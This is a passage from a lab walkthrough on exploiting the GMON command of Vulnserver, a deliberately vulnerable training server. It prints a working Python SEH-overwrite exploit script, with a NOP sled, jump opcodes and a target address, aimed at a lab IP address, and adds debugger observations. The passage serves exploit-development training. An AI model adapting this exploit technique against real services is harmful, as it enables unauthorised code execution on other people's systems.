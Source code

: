 Lets test it in our debugger by replacing it with our ```egg hunter``` of our previous exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat longjump.py 
import socket, sys

# opcodes for long jump to reach ESP+0xdc
long_jmp=b""
long_jmp+=b"\x83\xc4\x6e"
long_jmp+=b"\x83\xc4\x6e"
long_jmp+=b"\xff\x24\x24"

nseh=b""
nseh=b"\xeb\xb6"
nseh+=b"\x90\x90"

seh=b"\xb4\x10\x50\x62"

# to overwrite buffer and EBP
payload=b""
# NOP sled
payload+=b"\x90"*(3549-70)
# long jump
payload+=long_jmp
payload+=b"A"*(3549-len(payload))
# to overwrite nSEH
payload+=nseh
# to overwrite SEH
payload+=seh
# padding
payload+=b"D"*(5000-len(payload))

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 longjump.py
```

After the short jump, we will be perfectly landing here executing our ```long jump``` opcodes,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-opcode.png">
</div>

After jumping to the memory of ```ESP``` we will be in the region of ```NOP Sled``` passed from our script

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-nopjump.png">
</div>
